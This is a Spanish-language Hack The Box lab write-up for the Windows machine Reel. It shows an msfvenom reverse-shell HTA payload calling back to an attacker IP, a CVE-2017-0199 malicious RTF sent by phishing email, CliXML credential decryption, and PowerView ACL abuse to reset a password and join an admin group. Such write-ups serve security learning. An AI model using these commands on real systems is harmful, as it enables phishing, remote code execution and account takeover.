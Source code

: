 ```yaml
---
title: Reel
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [rtf, sendemail, clixml, writeowner, writedcl, groupsescalation]     # TAG names should always be lowercase
---
```


Aquí veréremos el uso de un rtf malicioso para mandarlo por correo, para eso usamos el repo 

https://github.com/bhdresh/CVE-2017-0199 para generar el rtf

Para eso creamos un archivo HCA/SCT por medio de msfvenom

```shell 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f hta-psh -o msf.hta

python2 rfe.py -M gen -w malicious.rtf -u 'http://10.10.14.2/msf.hta' -t RTF -x 0 
```
Con ayuda de exiftools pudimos ver el correo de uno de lo usuarios y pudimos verificarlo con 

```shell
sendemail -f test@test.com -t nico@megabank.com -u "hola perro del mal" -m "espero que tengas buen dia" -a malicious.rtf -s 10.10.10.77:25
```

## ESCALADA

Aquí vemos un archivo creds.xml donde hay un hash que pareciera la contraseña del usuario Tom con ayuda de Import-Clixml podemos obtener la contraseña.

```powershell
powershell -c "$cred = Import-Clixml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
```

Al ingresar como Tom vemos un archivo acsl que se puede abrir con `libreoffice` y vemos que tenemos el privilegio `WriteOwner` sobre Claire entonces procedemos a cambiarle la contraseña a Claire
Para eso utilizamos powerview que encontramos en la máquina

```powershell
Import-Module .\PowerView.ps1                                                      
Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "guero123$#" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred 
```
El usuario claire tiene permisos WriteDACL sobre el grupo backup_admins por lo que podemos meternos en ese grupo y tener privilegios de entrar a la carpeta del admin

```powershell
net group backup_admins claire /add
```
Por último hacemos búsqueda entre muchos scripts para encontrar algo que nos pueda servir

```powershell
dir | String-Search password
```

